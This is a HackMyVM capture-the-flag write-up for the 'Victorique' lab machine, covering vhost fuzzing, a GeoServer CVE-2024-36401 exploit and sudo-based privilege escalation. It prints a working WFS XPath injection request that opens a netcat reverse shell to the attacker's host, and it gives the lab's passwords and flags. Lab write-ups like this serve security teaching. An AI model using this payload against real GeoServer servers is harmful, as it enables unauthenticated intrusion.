

# Victorique - HackMyVM Writeup

[https://hackmyvm.eu/machines/machine.php?vm=Victorique](https://hackmyvm.eu/machines/machine.php?vm=Victorique)

---

### **USER FLAG**

#### **Initial Foothold: Attack Surface Identification**
The first objective is to map out the attack surface without worrying about the exploit yet—focus entirely on what is active and accessible.

We start with `nmap -sCV` to perform a comprehensive port scan. The scan reveals two active services:
* **Port 22** — OpenSSH 8.4p1 (Debian). Noted for later, no immediate action taken.
* **Port 80** — Apache httpd 2.4.62. This warrants deep-diving first.

Accessing `http://192.168.3.115` directly returns the following error:
> *"Access Denied: Please use the domain name 'victorique.xyz'"*



#### **The Virtual Host Trap**
The initial instinct might be to jump into directory fuzzing using a tool like `ffuf -u http://192.168.3.115/FUZZ`, but that is a fundamental mistake. Apache Virtual Host routing serves content based on the HTTP `Host` header, not the IP address. When `ffuf` sends requests directly to the IP, the default `Host: 192.168.3.115` header matches the **default vhost**—a generic page displaying Access Denied. Fuzzing directories here is futile because every response returns the same blank page.

When the server explicitly requests a domain name, it is not a rendering bug—it is a clear **signal** of a Virtual Host configuration in play.

⇒ **Action:** Add the domain mapping to `/etc/hosts`:


Verify the configuration using `curl -I http://victorique.xyz/` → **HTTP 200 OK**.


#### **Exploring the Main Portal**
Navigating to `http://victorique.xyz` reveals a GOSICK-themed page with three primary entry points: **ENTER LIBRARY**, **PROFILE**, and **LOGIN**.


The natural impulse is to immediately attempt to bypass the Login panel—but this is a classic reconnaissance trap. The login page is merely one of several potential attack surfaces. Decisions on where to attack must wait until broader enumeration is complete. Instead of assuming these three links constitute the entire surface, let's fuzz the directory structure to identify any unlinked hidden endpoints:

```bash
ffuf -u http://victorique.xyz/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 403
```


**Results:** `image (301)`, `index (200)`, `library (200)`, `login (200)`, `profile (200)`—perfectly aligning with the UI links. No hidden endpoints found. 

**Conclusion:** The attack path does not lie at the directory level of this domain. This leads to a more critical question: since Apache Virtual Hosts are used, are there other subdomains hosted here? Let's check using subdomain fuzzing with the `common.txt` wordlist:

```bash
ffuf -u http://victorique.xyz -H "Host: FUZZ.victorique.xyz" -w /usr/share/wordlists/dirb/common.txt
```


The output shows numerous `200` responses with a response size of `89`. This indicates that the server does not distinguish between existing and non-existing subdomains; requests to `a.victorique.xyz`, `b.victorique.xyz`, or any arbitrary subdomain all return **the same default landing page** (size 89). This points to an Apache **wildcard vhost** configuration (`*.victorique.xyz`) that catches all unconfigured subdomains. 

We can filter out these **false positives** using the `-fs 89` flag:


This filters out the noise and yields two real subdomains: `gifts` and `www`.

Notice that the response size for `www` perfectly matches the main domain (`8326`), meaning it is just an alias. Let's focus our attention entirely on `gifts`. However, directly accessing it right now won't work because our local DNS resolver doesn't know where to resolve it. To handle this, we add it to `/etc/hosts`:


#### **Extracting the First Clue**
Accessing the `gifts.victorique.xyz` subdomain and inspecting the page reveals a set of administrative credentials:
* **Username:** `ookami`
* **Password:** `GoS1Ck`


Attempting to use these credentials to log in at the main domain's admin panel (`http://victorique.xyz/login`) fails. Instead, the system returns a hinting message:
> *"The cunning gray wolf has deceived you. The gift lies deeper."*


The message implies that the login portal on the main site is a logic trap. The keyword **"gift"** directs our focus back to the `gifts.victorique.xyz` subdomain to hunt for deeper resources.

We perform a deeper directory fuzzing run on `gifts.victorique.xyz` using `ffuf` and the `directory-list-2.3-medium.txt` wordlist, checking for standard extensions to sweep for hidden files:

```bash
ffuf -u http://gifts.victorique.xyz/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .txt,.php,.html -mc 200,301,302 -t 100
```

The scan successfully returns a critical hidden text file:
* `http://gifts.victorique.xyz/greatgifts.txt` (Status 200)

---


Accessing `http://gifts.victorique.xyz/greatgifts.txt` directly to extract information reveals the following string:
> `Real Gifts: Ka4zuyaKujo0`
> `Use it to find new things`


**Conclusion:** The string `Ka4zuyaKujo0` is the name of another hidden virtual host (subdomain). We add this record to our `/etc/hosts` file to proceed:

```text
192.168.3.115 Ka4zuyaKujo0.victorique.xyz
```


#### **The Jetty Entrypoint**
Upon navigating to `http://Ka4zuyaKujo0.victorique.xyz`, the server returns a default 404 error page from **Jetty Server**. Conveniently, this error page lists all active "Contexts" (services/applications) currently running on the server.

We spot a highly sensitive endpoint: `/geoserver/`

Navigating to `http://Ka4zuyaKujo0.victorique.xyz/geoserver/` displays the management console for **GeoServer** (version `2.25.1`).


#### **Exploiting CVE-2024-36401 (Unauthenticated RCE)**
Given the version, research indicates that this GeoServer instance is vulnerable to a critical security flaw: **CVE-2024-36401**. This vulnerability allows unauthenticated Remote Code Execution (RCE) by injecting malicious XPath expressions (due to unsafe evaluation in the Apache Commons JXPath library) via WFS requests.

We use **Burp Suite** to intercept and modify an HTTP request to the `/geoserver/wfs` endpoint, injecting an XML payload to trigger the RCE:

```http
POST /geoserver/wfs HTTP/1.1
Host: ka4zuyakujo0.victorique.xyz
Content-Type: application/xml
Connection: close

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'busybox nc 192.168.3.114 4445 -e /bin/bash')</wfs:valueReference>
</wfs:GetPropertyValue>
```

This payload leverages the Java Runtime `exec()` method to call the `nc` (netcat) utility available within the target system's `busybox`, sending a reverse shell back to the attacker's machine.


Even though the HTTP response returns a **400 Bad Request**, our command has already successfully executed behind the scenes:
1. The `exec(java.lang.Runtime...)` call triggers and spawns a system process (represented internally by Java as a `ProcessImpl`).
2. Once executed, Java attempts to pass this returned process object back to GeoServer. Since GeoServer expects a map attribute (`AttributeDescriptor`) but receives a `ProcessImpl` instead, it throws a `ClassCastException` and spits out a 400 error.

⇒ The reverse shell successfully spawns and connects back before the server can even throw the 400 error.

#### **Gaining Foothold**
On the Kali machine, open a port listener to catch the incoming connection:
```bash
nc -nlvp 4445
```

After hitting **Send** on Burp Suite, the Kali terminal immediately receives a successful connection from the target. Running `whoami` confirms we have initial shell access as user **`victorique`**.


The spawned shell is a "dumb shell" (lacking interactive features like tab completion, history, and job control). To stabilize our workspace, we upgrade the shell using Python3 (which is pre-installed on the host):

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


Next, navigate to `victorique`'s home directory to inspect files and claim the User Flag:

```bash
cd
ls -la
cat user.txt
```


> **User Flag:** `flag{user-Gosick-Cordelia Gallo}`

**Foothold Complete.**

---

### **ROOT FLAG**

#### **Reconnaissance & Privilege Escalation Analysis**


Once inside, we explore our surroundings. The user's home folder contains two files of interest: `user.txt` (solved above) and `hint.txt`, which reveals a clue from the author:
> *Found some useful fragments. Converted them into a visual representation. --Cordelia Gallo*

We take note of two key terms: **"fragments"** and **"visual representation"**. While their exact purpose is currently unclear, they are bound to be vital clues for root privilege escalation.

Running `sudo -l` prompts for a password—which we do not have since we obtained shell access via exploitation and don't know `victorique`'s login password.

⇒ **Privilege Escalation Methodology:** Go back to where we started. We know the system hosts an Apache web server on port 80. The `/var/www/html` directory is a goldmine. Developers frequently hardcode credentials in code or leave them behind in comments.

```bash
grep -rn "victorique" /var/www/html 2>/dev/null
```


As expected, `login.php` exposes the user's password inside a code comment:
```php
// User victorique's Password: shinigami_qujo
```

Equipped with the password, we run `sudo -l` again:
```text
User victorique may run the following commands on Victorique:
    (ALL) /usr/bin/python3 /opt/img2txt.py *
```

* `(ALL)` indicates that the user `victorique` can execute this command as any user, including `root`.
* `/opt/img2txt.py` is a root-privileged image-to-text converter utility.

⇒ **Analytical Deduction:** The system provides us a root-privileged image-to-text decoding utility. The logical next question is: what images are hidden on the system that standard users lack permission to read?

Recalling the author's hint about **"fragments"** and **"visual representation"** combined with this `img2txt.py` script, we deduce that **the root password has been split into fragments, each embedded in a separate image file that is only readable by root.**

To hunt down these hidden files, we use `find` to scan the system for files with `700` permissions (readable/writable only by the owner):

```bash
find / -type f -perm 700 2>/dev/null
```


Images sitting in `/etc/ssh/` or `/var/mail/`? The author clearly hid them on purpose. Rather than manually testing each file, we write a quick Bash loop to feed each discovered file into `img2txt.py` under `sudo`, outputting any deciphered text to `/tmp`:

```bash
for img in $(find / -type f -perm 700 2>/dev/null); do
    echo "--- Testing $img ---"
    sudo /usr/bin/python3 /opt/img2txt.py --input "$img" --output /tmp/out.txt --mode simple 2>/dev/null
    if [ -s /tmp/out.txt ]; then
        echo "[+] Found text in $img:"
        cat /tmp/out.txt
    fi
done
```

Once the script finishes, the terminal is flooded with ASCII characters. This is because `img2txt.py` renders images as **ASCII art**. Since the characters in the original images are large, the generated ASCII art is massive. Because of default terminal word wrapping, the art appears jumbled.

**The trick:** Zoom out the terminal window (`Ctrl` + `-` repeatedly) or read the output files in a wider viewer. Once zoomed out, the characters align perfectly to reveal three password fragments:

* **Fragment 1** — extracted from `/usr/games/.haru.ppm` → **`ch4mp`**


* **Fragment 2** — extracted from `/var/www/html/IoIooIIOIOio/sunset.webp` → **`10n5h1p`**


* **Fragment 3** — extracted from `/etc/ssh/.shinigami.png` → **`C11pp3r5`**


#### **Cracking the Root Password**
We have three distinct fragments but do not know their correct sequence. Rather than guessing blindly, we use Python's `itertools` to generate all 6 possible permutations:

```bash
python3 -c 'import itertools as it; w=["C11pp3r5", "10n5h1p", "ch4mp"]; [print("".join(p)) for p in it.permutations(w)]'
```


We attempt `su root` with each variation. The 5th attempt is accepted: **`C11pp3r5ch4mp10n5h1p`**. Root access successfully acquired!


Navigating to `/root` reveals `root.png` instead of the traditional `root.txt`. We use `img2txt.py` with an increased column width (`--num_cols 1000`) to extract the final flag:

```bash
python3 /opt/img2txt.py --input root.png --output root.txt --mode simple --num_cols 1000
```

Opening the output text file, setting a tiny font size (or zooming out completely in a browser), the root flag reveals itself:


> **Root Flag:** `flag{root-Gosick-Victorique De Blois}`

**Root Compromised.**

---

### **KEY TAKEAWAYS & LESSONS LEARNED**

1. **Virtual Host ≠ IP (The `Host` Header is King):** 
   When Apache is configured with Virtual Hosts, a single IP can host multiple sites depending on the HTTP `Host` header. Fuzzing the IP directly yields the default vhost page. Always map domain names to `/etc/hosts` and fuzz using the correct `Host` headers.
   
2. **Source Code is a Goldmine:** 
   Hardcoded credentials in comment blocks are an extremely common development mistake. A fundamental step in any post-exploitation methodology is recursive searching (`grep -r`) for credentials in `/var/www`, configuration files, and `.env` files.
   
3. **Analyze Clues and Naming Conventions:** 
   The presence of `/opt/img2txt.py` immediately hints at the privilege escalation vector. Correlating this with the author's clue of "visual representation" and "fragments" allows for a targeted, logical path rather than guessing.
   
4. **Abnormal Permissions = Intentional Design:** 
   Finding image files under system directories like `/etc/ssh/` or `/var/mail/` with restrictive permissions (`700`) is highly irregular. In CTFs and real assessments, abnormal file properties almost always point directly to target data or vulnerabilities.
   
5. **Interactive Shell Upgrades are Mandatory:** 
   Raw reverse shells lack tab completion, command history, and job control, and can easily die from a miskeyed `Ctrl+C`. Upgrading to an interactive TTY shell via Python and `stty` configurations is the first step that should always be performed upon gaining a foothold.
